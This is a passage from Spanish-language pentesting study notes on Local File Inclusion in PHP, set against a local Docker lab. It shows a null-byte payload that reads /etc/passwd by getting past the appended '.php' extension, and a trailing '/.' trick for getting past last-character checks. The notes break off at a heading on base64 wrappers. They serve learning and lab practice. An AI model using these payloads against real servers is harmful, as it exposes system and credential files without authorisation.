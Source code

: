 ```bash
# Al final de la URL, se incluye un "Null Byte":
?filename=/etc/passwd%00

# Esto equivale a:
?filename=/etc/passwd\0

# En php interactive:
include("/etc/passwd\0" . "php");
```

Para probar esto, se puede instalar la siguiente imagen:

```bash
docker pull tommylau/php.5-2
docker run -dit --name testing <IDimagen>

```

Debido a que esta corresponde a una versión antigua, se puede evadir esta concatenación con un “Null Byte”:

![Concatenación de /etc/hosts con la extensión “.php”](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%208.png)

Concatenación de /etc/hosts con la extensión “.php”

![Evadiendo la concatenación con un “Null Byte”](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%209.png)

Evadiendo la concatenación con un “Null Byte”

### Ejemplo #5 - Contra verificación de últimos caracteres

![Verificación de últimos caracteres no muestra el archivo](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2010.png)

Verificación de últimos caracteres no muestra el archivo

![Evadiendo la verificación con “/.” al final de la cadena](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2011.png)

Evadiendo la verificación con “/.” al final de la cadena

### Lab para explotar LFIs

Instalación

```bash
git clone https://github.com/NetsecExplained/docker-labs
cd docker-labs/file-inclusion/college_website
docker-compose up -d
```

## Tipos de Wrappers

Sirven para representar el contenido de una página de una forma distinta.

### Wrappers - Convertir una cadena en base64:
